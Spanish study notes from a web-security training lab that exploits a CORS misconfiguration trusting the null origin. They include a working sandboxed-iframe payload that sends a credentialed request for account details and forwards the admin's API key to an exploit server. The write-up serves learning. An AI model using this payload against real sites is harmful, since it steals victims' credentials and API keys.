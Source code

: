 En esta clase continuamos con el análisis de configuraciones inseguras de CORS, centrándonos en un caso donde el servidor confía en peticiones con origen null. Este tipo de comportamiento suele verse cuando se permiten solicitudes desde documentos cargados mediante iframes con ‘**sandbox**‘ y ‘**srcdoc**‘, lo cual representa un riesgo si además se permite el uso de cookies mediante ‘**Access-Control-Allow-Credentials**‘.

Aprovechamos esta vulnerabilidad para extraer la clave API del administrador. Para ello, construimos un exploit con un iframe que lanza una petición **XMLHttpRequest** desde un origen null, lo que permite al navegador incluir las cookies del administrador y acceder a información sensible. Finalmente, redirigimos la respuesta al registro del exploit server, lo que nos permite visualizar y enviar la clave para resolver el laboratorio.

Solucion
realizamos lo mismo no logeamos u en la respuesta del BS le damos forward y una ves ahi mandamos al repeater nuestra solicitud
![[Pasted image 20250728205329.png]]
y bueno en la respuesta ene ACAC tenemos un true el cual podemos llegar a pensar que podemos tener un origin pero no sabes a cual asi que nosotros podemos mandar un NULL
y no lo acepta
![[Pasted image 20250728205717.png]]

esto lo vamos a reflejar en un script de estilo iframe
(<iframe sandbox="allow-scripts" srcdoc='<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = 'https://exploit-0ab100c10401b08b806f5c8501ae002d.exploit-server.net/?apikey=' + btoa(req.responseText);
    };
    req.open('GET', 'https://0aeb00ce041cb072800e5dff00c20099.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
</script></iframe>)


Y con esto si revisamos de nuevo los logs obtendremos la apikey

![[Pasted image 20250728211153.png]]


![[Pasted image 20250728211359.png]]

y con esto lo convertimos a null
